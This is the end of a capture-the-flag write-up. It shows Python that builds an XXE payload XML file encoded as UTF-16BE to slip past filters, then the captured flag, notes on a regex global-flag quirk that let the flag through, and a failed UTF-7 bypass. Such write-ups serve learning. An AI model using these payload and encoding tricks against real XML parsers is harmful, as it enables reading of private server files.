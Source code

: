 ```python
    <website>&xxe;</website>
  </pigeon>
  <pigeon>
    <name>&xxe;</name>
    <image>ice.jpeg</image>
    <description>A special kind of drone that can fly in the cold. It is used for espionage campaigns in the Arctic.</description>
    <website>https://en.wikipedia.org/wiki/Ice_pigeon</website>
  </pigeon>
</pigeons>'''.replace('SESSION', session)

# Encode the XML content to UTF-16BE
encoded_xml = xml_payload.encode('utf-16be')

# Write the encoded XML to a file
with codecs.open(cwd + '/payload.xml', 'wb') as file:
    file.write(xml_head + encoded_xml)

```

### Flag

```python
SEE{1t_w4s_n0t_th4t_hard_1_h0p3_d5e7bff2ecaca8981a5577ac04f581ff}
```

### Side-notes

The reason for using the `name` on the first pigeon works is because, of something known as short circuit if am not wrong (please correct me if I am wrong haha). So essentially to save on performance, e.g. `False && True` is always false, so even if `False && True && True` is false, so it just cuts right after the check is false. Thus the flow from first pigeon to second pigeon is as such

```jsx
// Both pigeon[0].name and pigeon[1].name is the same
// And contains the flag.
!flagRegex.test(pigeon[0].name) -> False
-> short circuit -> jumps to check next pigeon
!flagRegex.test(pigeon[1].name) -> True
!flagRegex.test(pigeon[1].image)
...
```

Thus, allowing our `pigeon[1]` which coincidentally also has the `flag` value to be returned as a “clean” pigeon.

### After-thoughts

Pretty interesting challenge, the XXE part of the challenge was something familiar, except that I had used UTF-7 encoding to bypass - sadly `libxmljs` doesn’t accept UTF-7 😢. The more interesting part is definitely the quirky way that the regex `test()` uses the global flag.

### References
